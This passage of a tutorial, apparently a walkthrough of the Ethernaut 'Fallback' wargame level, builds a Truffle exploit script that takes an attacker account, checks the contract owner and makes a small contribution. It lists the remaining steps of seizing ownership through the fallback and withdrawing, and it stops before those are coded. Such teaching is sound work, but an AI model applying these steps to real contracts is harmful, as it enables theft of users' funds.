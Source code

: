 ~~~javascript
/* fallback.exploit.js */
const FallbackContract = artifacts.require('Fallback')
const assert = require('assert')
~~~

According to [Truffle's docs on external scripts](http://truffleframework.com/docs/getting_started/scripts#file-structure), we ought to export a function that takes a callback as an argument. Moreover, that callback needs to be executed at the end of the script, like this:

~~~ javascript
/* fallback.exploit.js */
const FallbackContract = artifacts.require('Fallback')
const assert = require('assert')

async function execute(callback) { 
    // [...]
    callback()
}

module.exports = execute
~~~

I know, nothing fancy yet. This is all Truffle-related stuff, let's call it the *structure* of our exploits. In fact, you'll see that we will always come back to this boilerplate in future tutorials, so keep it at hand. 

Let's go ahead and do something more interesting. Recall that, to solve Fallback, we need to do 3 simple tasks:

1. Make a contribution minor than 0.001 ether
2. Call the fallback function to become the owner
3. Withdraw!

## Exploiting the contract

~~~javascript
/* fallback.exploit.js */
const FallbackContract = artifacts.require('Fallback')
const assert = require('assert')

async function execute(callback) { 
    
    // Get attacker account
    let attacker = web3.eth.accounts[1]
    console.log(`Attacker address: ${attacker}`)

    // Instance vulnerable contract
    let contract = await FallbackContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    assert.equal(contractOwner, web3.eth.accounts[0])
    console.log(`Contract owner: ${contractOwner}`)

    // 1. Make a small contribution
    await contract.contribute({
        from: attacker,
        value: web3.toWei(0.0009, 'ether')
    })

    callback()
}

module.exports = execute
~~~
